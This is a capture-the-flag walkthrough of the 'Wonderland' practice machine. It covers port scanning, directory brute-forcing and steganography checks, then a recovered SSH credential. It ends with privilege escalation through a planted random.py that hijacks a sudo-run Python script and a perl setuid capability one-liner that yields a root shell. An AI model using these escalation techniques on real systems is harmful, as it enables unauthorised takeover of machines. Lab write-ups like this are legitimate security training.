 # Wonderland

First of all I added the *wonderland.thm* to `/etc/hosts` and I am going to use it instead of the IP. <br>
Here is what we got from **nmap** scan:
```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8eeefb96cead70dd05a93b0db071b863 (RSA)
|   256 7a927944164f204350a9a847e2c2be84 (ECDSA)
|_  256 000b8044e63d4b6947922c55147e2ac9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Let's look at the http server using web browser.<br>
![The web page](img/1.png)<br>
Let's download the image and look if there is anything interesting.<br>
![The image](white_rabbit_1.jpg)<br>
Here is the image.
Looks like we can extract something from there using steghide, but we need the password. Let's try to crack it.
Probably there is no sense to crack it. I got a message there like this: 
`follow the r a b b i t` what does it mean?
Let's do **gobuster** to the http server.<br>

Things are getting interesting. Using **gobuster** we found 3 new paths.
```gobuster
/img                  (Status: 301) [Size: 0] [--> img/]
/index.html           (Status: 301) [Size: 0] [--> ./]
/r                    (Status: 301) [Size: 0] [--> r/]
```

**r** page:<br>
![/r](img/2.png)

**img** page:<br>
![/img](img/3.png)<br>
We got to more images there. Let's download and inspect them.<br>
<img alt="alice_door.jpg" src="alice_door.jpg" width=30%> <img alt="alice_door.png" src="alice_door.png" width=30%><br>
Using binwalk we found that there is something in the **alice_door.png**. Let's extract it. Looks like there is nothing interesting.
Now I am going to look at the jpg image. Well, still nothing interesting.
We could try to do gobuster few more times and we can get to the *http://wonderland.thm/r/a/b/b/i/t*
We got this page:<br>
![rabbit page](img/4.png)<br>
And this interesting little string: `alice:HowDothTheLittleCrocodileImproveHisShiningTail`
Those were credentials that let us into ssh. 

There is a python script that shows us random lines from the poem. It uses the "random" library. We can exploit it.
We can use next commands to see where the library is located:
`python3 -c 'import sys; print (sys.path)`
`locate random.py`

If any of these search paths are world writable, it will impose a risk of privilege escalation, as placing a file in one of these directories with a name that matches the requested library will load that file, assuming it’s the first occurrence. The order at which it loads those path is beginning with our current directory where the python script was executed from.

so the next step we do is:
we create file `random.py` in the same directory and add there the next code:
```
import os

os.system("/bin/bash")
```
and then:
`sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`

Then we can get access to the user hatter. ssh in it. After we are there we can download linpeas.sh and it will show us that we have the perl capability.

We go here: https://gtfobins.github.io/gtfobins/perl/#capabilities. Copy this line:
`perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`
And now are root. Find the flags.